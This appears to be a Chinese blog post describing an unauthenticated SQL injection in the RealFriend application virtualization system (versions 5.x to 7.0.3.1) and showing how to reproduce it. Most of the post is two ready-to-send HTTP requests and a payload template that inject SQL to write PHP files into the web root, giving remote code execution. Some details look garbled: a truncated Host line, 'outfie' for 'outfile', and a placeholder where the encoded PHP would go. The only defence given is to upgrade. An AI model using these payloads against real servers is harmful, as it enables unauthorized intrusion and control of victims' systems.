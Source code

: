 ﻿@[toc]
# 漏洞描述
瑞友天翼应用虚拟化系统是基于服务器计算架构的应用虚拟化平台，它将用户各种应用软件集中部署到瑞友天翼服务集群，客户端通过 WEB 即可访问经服务器上授权的应用软件，实现集中应用、远程接入、协同办公等。未经身份认证的远程攻击者可以利用系统中存在的 SQL 注入漏洞，写入后门文件，从而执行远程代码。
# 漏洞原理
   瑞友天翼应用虚拟化系统中的 /Home/Controller/AdminController 存在 appsave/appdel 两个无需鉴权并且存在SQL注入的风险的接口，攻击者可利用 php PDO默认支持堆叠的方式使用堆叠写入恶意文件导致 RCE。
# 影响版本
5.x <= 瑞友天翼应用虚拟化系统 <= 7.0.3.1

# 漏洞复现

![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/d96f67eb626c48beb8afcd40ba530ed4.png)

```yaml
GET /AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C2.php%22+--+-&cmd=UserLogin HTTP/1.1
Host: 127.0.0.
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
```


```YAML
GET /index.php?s=/Admin/appsave&appid=3%27%29%3Bselect+unhex%28%27编码php语言%27%29+into+outfie+%27.%5C%5C..%5C%5C..%5C%5CWebRoot%5C%5Csec.xgi%27%23 HTTP/1.1
Content-type:application/x-www-form-urlencoded
User-Agent: Mozilla/5.0(Windows NT 10.0; Win64;x64)AppleWebKit/537.36(KHTML,like Gecko)Chrome/72.0.3626.121 Safari/537.36
Accept:text/html，image/gif,image/jpeg,*;q=.2，*/*;q=.2
Connection:close
```

3')%3Bselect+unhex('编码php语言')+into+outfie+'路径/文件名'%23 

# 防御方法

升级到最新版本
